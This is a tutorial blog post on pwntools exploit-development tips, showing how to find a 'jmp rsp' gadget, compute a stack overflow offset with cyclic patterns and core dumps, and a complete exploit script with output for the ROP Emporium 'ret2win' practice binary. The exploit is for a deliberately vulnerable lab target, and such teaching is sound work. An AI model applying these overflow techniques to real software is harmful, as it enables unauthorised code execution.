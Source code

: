 ```yaml
---
title: "Pwntool Tips 3"
date: 2020-01-04T19:13:37-05:00
toc: false
images:
tags:
  - pwntools
  - exploitdev
---
```


Before we start, in part 2 of the series I demonstrated finding asm instructions within a binary
using the `elf.search()` function. We passed bytes `ff e4` in order to find the address of a `jmp
rsp` instruction. As it turns out, we can use also the mnemonic if we pass it through `asm()` first.
This way, we don't have to remember that `jmp rsp` is `ff e4` on amd64 architecture.

```python

""" From yesterday """
In [2]: e = ELF('pwnable')
In [3]: next(e.search("\xff\xe4"))
Out[3]: 159281

""" Alternate way, with the mnenonic """
In [3]: searcher = e.search( asm("jmp rsp") )
In [4]: searcher.next()
Out[4]: 159281


```

# Auto-Finding the Offset with Cyclic & Corefiles

The `cyclic` function will generate a deterministic sequence called a 
[De Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) 
sequence. Since the pattern is always the same, we can rely on the fact that any subsequence will
also be at the same index. That means we can take the sequence at the fault address and search for
the offset within that sequence. Searching is done with the `cyclic_find` function.

`Pwntools` also knows how to deal with core dumps.

From the [Docs](http://docs.pwntools.com/en/stable/elf/corefile.html#using-corefiles-to-automate-exploitation):

> Core dumps are extremely useful when writing exploits, even outside of the normal act of debugging things.


We're going use the first 64-bit challenge from 
[ROP Emporium](https://ropemporium.com/challenge/ret2win.html).
The challenges here are specifically geared toward practicing ROP techniques, so they remove most
reversing and bug-hunting barriers and tell you outright that the overflow length for every
challenge is 40. As a former teacher, I approve of this method. We'll use this known-good value of
40 to test with.

To automatically find the offset:

```python
In [1]: from pwn import *
In [2]: context.clear(arch="amd64")
In [3]: io = process('./ret2win')
In [4]: io.recv()
In [5]: io.sendline( cyclic(128, n=8 )
In [6]: io.wait()
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 1108287)

In [7]: coredump = Core("./core.ret2win.1108287")
[x] Parsing corefile...
    Arch:      amd64-64-little
    RIP:       0x400810
    RSP:       0x7ffcef76b438
    Fault:     0x6161616161616166

In [8]: cyclic_find(coredump.fault_addr, n=8)
Out[8]: 40
```

Here's what a fully automated exploit might look like using what we've learned from the past 3
posts.

```python
from pwn import *
context.arch="amd64"

def overflow(io, data):
    io.recv()
    io.sendline(data)

exe = "ret2win"
io  = process(exe)

overflow( io, cyclic(100, n=8) )
io.wait()

elf_file = ELF(exe)
offset   = cyclic_find( io.corefile.fault_addr, n=8 )
payload  = fit({ offset: elf_file.sym.ret2win })

io = process(exe)
overflow(io, payload)
success( io.recvline() )
```

Output:

```sh
dev ❯❯ python exp.py
[+] Starting local process './ret2win': pid 1248672
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 1248672)
[+] Parsing corefile...: Done
    Arch:      amd64-64-little
    RIP:       0x400810
    RSP:       0x7ffcf9977c28
    Fault:     0x6161616161616166
[+] Starting local process './ret2win': pid 1248677
[+] b"Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}\n"
```

Check out the `cyclic` [docs here](http://docs.pwntools.com/en/stable/util/cyclic.html)
